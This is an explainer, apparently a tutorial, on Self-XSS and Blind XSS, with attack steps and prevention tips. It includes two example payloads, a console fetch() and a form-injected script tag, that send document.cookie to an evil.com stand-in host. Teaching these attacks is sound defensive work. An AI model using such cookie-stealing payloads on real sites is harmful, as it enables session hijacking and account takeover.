 ### **Self-XSS & Blind XSS Explained** 🚀  

XSS attacks come in many forms, and **Self-XSS** and **Blind XSS** are two less commonly known but still dangerous variations.  

---

## **1️⃣ Self-XSS (Self Cross-Site Scripting)**
### **🔹 What is Self-XSS?**
- In **Self-XSS**, the attacker tricks a victim into running malicious JavaScript in their own browser, usually by pasting code into the browser's developer console.  
- It relies on social engineering rather than exploiting a web application's vulnerability.  

### **🛑 Example of Self-XSS Attack**  
1. The attacker sends a message like:  
   > "Paste this code into your browser console to get free premium features!"  
2. The victim copies and pastes the following JavaScript into their browser’s developer console:  
   ```javascript
   fetch('https://evil.com/steal?cookie=' + document.cookie);
   ```
3. The script executes, stealing the user's session cookies or personal data.  

### **🔹 Impact of Self-XSS**  
- Usually, it affects **only the user who executes the script**.  
- However, an attacker could **escalate the attack** by using the script to send malicious requests, modify the user’s account, or spread the attack to others (turning it into stored XSS).  

### **✅ Prevention of Self-XSS**  
- **Browsers now warn users** when they try to paste code into the console (e.g., Chrome shows: _“Do not paste anything here if you don’t understand it”_).  
- Educate users about the risks of running unknown JavaScript.  
- Restrict developer tools for regular users if possible.  

---

## **2️⃣ Blind XSS (Time-Delayed XSS)**
### **🔹 What is Blind XSS?**
- **Blind XSS** occurs when a malicious script is **stored** and executed in a location where the attacker cannot see the immediate impact.  
- Unlike regular **Stored XSS**, the attacker does not see the execution in real-time.  
- The script triggers when an admin or internal user views the infected data.  

### **🛑 Example of Blind XSS Attack**  
1. The attacker injects a payload into a feedback form:  
   ```html
   <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
   ```
2. The website **saves the feedback** in a database.  
3. When an admin reviews the feedback in an internal dashboard, the script **executes in their browser**.  
4. The attacker **steals session tokens, performs actions as the admin, or escalates privileges**.  
